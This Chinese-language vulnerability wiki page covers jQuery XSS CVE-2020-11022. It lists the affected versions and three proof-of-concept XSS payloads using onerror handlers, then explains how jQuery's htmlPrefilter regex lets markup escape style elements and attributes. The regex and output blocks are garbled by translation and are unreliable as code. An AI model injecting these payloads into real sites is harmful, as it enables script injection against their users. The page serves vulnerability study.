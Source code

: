 # jQuery XSS漏洞 CVE-2020-11022

## 漏洞描述

据NVD描述：在大于或等于1.2且在3.5.0之前的jQuery版本中，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

## 漏洞影响

<a-checkbox checked>3.5.0 > jQuery >= 1.2</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="在线复现地址， 可以通过观察变化了解漏洞, https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html" description="" showIcon>
</a-alert>
<br/>

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095322217.png)



PoC 1和PoC 2具有相同的根本原因。在中`.html()`，作为参数传递的HTML字符串将传递到 [$ .htmlPrefilter（）](https://api.jquery.com/jQuery.htmlPrefilter/)方法。该`htmlPrefilter`处理用于替换自闭合标签等进行到，通过使用以下正则表达式：`<tagname **/>**``<tagname ></tagname>`

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
}
```

如果PoC 1的HTML通过此替换，则输出将是：

```plain
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

黄色部分是替换的字符串。由于此替换，`<style />`样式元素内部被替换`<style ></style>`为，结果是，之后的字符串从样式元素中被踢出。之后，`.html()`将替换的HTML分配给`innerHTML`。在这里，`<img ...>`字符串变成了实际的img标签，并触发了onerror事件。

顺便说一下，上述正则表达式在3.x之前的jQuery中使用。从3.x开始，使用了另一个经过稍加修改的正则表达式

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

此更改引入了另一个XSS向量，该向量可能仅由更多基本元素和属性导致XSS。通过此更改引入了PoC 2的向量。它仅适用于jQuery3.x。

```plain
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

在这种情况下，属性值上的 img 字符串被踢出并发生XSS。